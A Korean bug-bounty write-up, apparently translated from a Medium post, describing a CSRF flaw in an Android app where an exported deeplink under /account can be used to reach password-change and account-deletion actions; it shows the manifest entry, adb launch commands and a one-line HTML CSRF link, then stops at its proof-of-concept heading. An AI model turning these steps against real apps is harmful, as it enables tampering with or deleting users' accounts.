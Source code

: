 ```yaml
---
title: "CSRF로 인해 계정이 삭제될 수 있습니다"
description: ""
coverImage: "/assets/img/2024-05-23-CSRFLeadstoDeleteAccount_0.png"
date: 2024-05-23 14:47
ogImage:
  url: /assets/img/2024-05-23-CSRFLeadstoDeleteAccount_0.png
tag: Tech
originalTitle: "CSRF Leads to Delete Account"
link: "https://medium.com/@happyjester80/csrf-leads-to-delete-account-241f2cf8950b"
---
```


# 안녕하세요!

![이미지](/assets/img/2024-05-23-CSRFLeadstoDeleteAccount_0.png)

# 소개

- 대상: 안드로이드 애플리케이션
- 날짜: 2024년 5월
- 요약: Corp 앱에서 CSRF 취약점을 발견했습니다. 이 취약점을 이용하여 사용자 계정을 삭제할 수 있는 Deeplink와 delete-account 엔드포인트 간의 상호작용이 가능합니다.

<div class="content-ad"></div>

# 복제 단계

- 먼저 AndroidMainfast.xml을 살펴봅니다.

```xml
        <activity android:theme="@style/Theme.Thredup.Splash" android:name="com.example.android.feature.splash.SplashActivity" android:exported="true" android:launchMode="singleTask" android:screenOrientation="behind" android:configChanges="screenSize|orientation" android:noHistory="true">
            <intent-filter android:autoVerify="true">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="www.example.com" android:pathPrefix="/account"/>
                <data android:scheme="https"/>
                <data android:scheme="http"/>
            </intent-filter>
        </activity>
```

- 'adb'를 사용하여 호출한 후에 /account/라는 Path로 이 Deeplink를 발견했습니다.

<div class="content-ad"></div>

- 지금은 설정에 있어요;
- 잠시만 android:pathPrefix=/account/는 무슨 의미일까요?
- android:pathPrefix 속성은 Intent 객체의 경로의 초기 부분에만 일치하는 부분 경로를 지정합니다. 그래서 아마도 /account/ 뒤에 무언가를 찾을 수 있을지도 모릅니다.
- 설정 이후에 API 호출을 가로챈 후, 비밀번호 변경이나 계정 삭제와 같은 설정 후의 API 엔드포인트를 Deeplink에서 사용해 봅시다.

```js
adb shell am start -a android.intent.action.VIEW -n com.thredup.android/com.thredup.android.feature.splash.SplashActivity -d "https://www.example.com/account/change_password"

adb shell am start -a android.intent.action.VIEW -n com.thredup.android/com.thredup.android.feature.splash.SplashActivity -d "https://www.example.com/account/delete_password"
```

- 지금 CSRF로 만들어 봐요.

<div class="content-ad"></div>

```javascript
<!DOCTYPE html>
<html>
<a href="https://www.example.com/account/change_password">CSRF DEMO</a>
</html>
```

# Proof of Concept
